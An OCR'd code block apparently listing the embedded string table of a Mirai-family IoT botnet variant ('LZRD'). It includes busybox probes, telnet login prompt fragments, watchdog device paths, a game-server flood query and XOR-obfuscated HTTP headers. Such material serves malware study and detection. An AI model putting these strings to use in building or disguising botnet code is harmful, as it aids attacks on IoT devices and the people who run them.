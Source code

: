 ```
            "bot]\n",
            "hakai\u0000",
            "shell\u0000",
            "enable\u0000",
            "system\u0000",
            "sh\u0000",
            "linuxshell\u0000",
            "/bin/busybox LZRD\u0000",
            "LZRD: applet not found\u0000",
            "ncorrect\u0000",
            "ogin\u0000",
            "assword\u0000",
            "enter\u0000",
            "bah\u0000",
            "start\u0000",
            "TSource Engine Query\u0000",
            "/etc/resolv.conf\u0000",
            "nameserver \u0000",
            "/dev/watchdog\u0000",
            "/dev/misc/watchdog\u0000",
            "/sbin/watchdog\u0000",
            "/bin/watchdog\u0000",
            "/dev/FTWDT101_watchdog\u0000",
            "/dev/FTWDT101/watchdog\u0000",
            "/dev/watchdog0\u0000",
            "/etc/default/watchdog\u0000",
            "/etc/watchdog\u0000",
            "dkaowjfirhiad1j3edjkai\u0000",
            "eIHHCEROIH\u001c\u0006MCCV\u000bGJOPC&",
            "gEECVR\u001c\u0006RC^R\tNRKJ\nGVVJOEGROIH\t^NRKJ\r^KJ\nGVVJOEGROIH\t^KJ\u001dW\u001b\u0016\b\u001f\nOKGAC\tQCDV\n\f\t\f\u001dW\u001b\u0016\b\u001e&",
            "gEECVR\u000bjGHASGAC\u001c\u0006CH\u000bsu\nCH\u001dW\u001b\u0016\b\u001e&",
            "eIHRCHR\u000br_VC\u001c\u0006GVVJOEGROIH\t^\u000bQQQ\u000b@ITK\u000bSTJCHEIBCB&",
            "UCReIIMOC\u000e\u0001&",
            "TC@TCUN\u001c&",
            "JIEGROIH\u001c&",
            "UCR\u000bEIIMOC\u001c&",
            "EIHRCHR\u000bJCHARN\u001c&",
            "RTGHU@CT\u000bCHEIBOHA\u001c&",
            "ENSHMCB&",
            "MCCV\u000bGJOPC&",
            "EIHHCEROIH\u001c&",
            "UCTPCT\u001c\u0006BIUGTTCUR&",
            "UCTPCT\u001c\u0006EJISB@JGTC\u000bHAOH^&",
            "kI\\OJJG\t\u0013\b\u0016\u0006\u000eqOHBIQU\u0006hr\u0006\u0017\u0016\b\u0016\u001d\u0006qiq\u0010\u0012\u000f\u0006gVVJCqCDmOR\t\u0013\u0015\u0011\b\u0015\u0010\u0006\u000emnrkj\n\u0006JOMC\u0006aCEMI\u000f\u0006eNTIKC\t\u0013\u0017\b\u0016\b\u0014\u0011\u0016\u0012\b\u0017\u0016\u0015\u0006uG@GTO\t\u0013\u0015\u0011\b\u0015\u0010&",
            "kI\\OJJG\t\u0013\b\u0016\u0006\u000eqOHBIQU\u0006hr\u0006\u0017\u0016\b\u0016\u001d\u0006qiq\u0010\u0012\u000f\u0006gVVJCqCDmOR\t\u0013\u0015\u0011\b\u0015\u0010\u0006\u000emnrkj\n\u0006JOMC\u0006aCEMI\u000f\u0006eNTIKC\t\u0013\u0014\b\u0016\b\u0014\u0011\u0012\u0015\b\u0017\u0017\u0010\u0006uG@GTO\t\u0013\u0015\u0011\b\u0015\u0010&",
            "kI\\OJJG\t\u0013\b\u0016\u0006\u000eqOHBIQU\u0006hr\u0006\u0010\b\u0017\u001d\u0006qiq\u0010\u0012\u000f\u0006gVVJCqCDmOR\t\u0013\u0015\u0011\b\u0015\u0010\u0006\u000emnrkj\n\u0006JOMC\u0006aCEMI\u000f\u0006eNTIKC\t\u0013\u0017\b\u0016\b\u0014\u0011\u0016\u0012\b\u0017\u0016\u0015\u0006uG@GTO\t\u0013\u0015\u0011\b\u0015\u0010&",
            "kI\\OJJG\t\u0013\b\u0016\u0006\u000eqOHBIQU\u0006hr\u0006\u0010\b\u0017\u001d\u0006qiq\u0010\u0012\u000f\u0006gVVJCqCDmOR\t\u0013\u0015\u0011\b\u0015\u0010\u0006\u000emnrkj\n\u0006JOMC\u0006aCEMI\u000f\u0006eNTIKC\t\u0013\u0014\b\u0016\b\u0014\u0011\u0012\u0015\b\u0017\u0017\u0010\u0006uG@GTO\t\u0013\u0015\u0011\b\u0015\u0010&",
```